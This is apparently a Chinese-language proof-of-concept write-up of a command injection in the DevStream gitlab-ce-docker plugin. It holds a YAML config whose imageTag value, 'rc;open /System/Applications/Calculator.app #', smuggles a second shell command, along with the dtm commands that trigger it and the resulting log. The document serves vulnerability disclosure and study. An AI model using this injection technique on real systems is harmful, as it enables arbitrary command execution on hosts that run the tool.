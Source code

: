 这份文件是参考并复用了对方官方网站的 启动脚本的 QuickStart.yaml 以及[存在漏洞的 gitlab ce docker 插件的文档](https://docs.devstream.io/en/latest/plugins/gitlab-ce-docker/)

### 效果

使用 

```shell
dtm init -f evil_yaml_name.yaml # 这里是为了 download 插件
dtm apply -f evil_yaml_name.yaml # --debug 只是为了开 debug 模式
```

先进行 init 然后 对其进行 apply 命令的执行。

可以看到

```
2022-11-16 18:51:24 ℹ [INFO]  Log level is: debug.
2022-11-16 18:51:24 ℹ [INFO]  Apply started.
2022-11-16 18:51:24 λ [DEBUG]  Original config: 
---
# core config
varFile: "" # If not empty, use the specified external variables config file
toolFile: "" # If not empty, use the specified external tools config file
pluginDir: "" # If empty, use the default value: ~/.devstream/plugins, or use -d flag to specify a directory
state: # state config, backend can be local, s3 or k8s
  backend: local
  options:
    stateFile: devstream.state
---
# tools config
tools:
  # name of the tool
  - name: gitlab-ce-docker
    # id of the tool instance
    instanceID: default
    # format: name.instanceID; If specified, dtm will make sure the dependency is applied first before handling this tool.
    dependsOn: [ ]
    # options for the plugin
    options:
      # hostname for running docker. (default: gitlab.example.com)
      hostname: gitlab.example.com
      # pointing to the directory where the configuration, logs, and data files will reside.
      # (default: /srv/gitlab)
      # 1. it should be a absolute path
      # 2. once the tool is installed, it can't be changed
      gitlabHome: /tmp
      # ssh port exposed in the host machine. (default: 22)
      sshPort: 22
      # http port exposed in the host machine. (default: 80)
      httpPort: 80
      # https port exposed in the host machine.
      # (default: 443)
      # todo: support https, reference: https://docs.gitlab.com/omnibus/settings/nginx.html#enable-https
      httpsPort: 443
      # whether to delete the gitlabHome directory when the tool is removed. (default: false)
      rmDataAfterDelete: false
      # gitlab-ce tag. (default: "rc")
      # imageTag: "rc"
      imageTag: "rc;open /System/Applications/Calculator.app #"


2022-11-16 18:51:24 ℹ [INFO]  Using dir </Users/esonhugh/.devstream/plugins> to store plugins.
```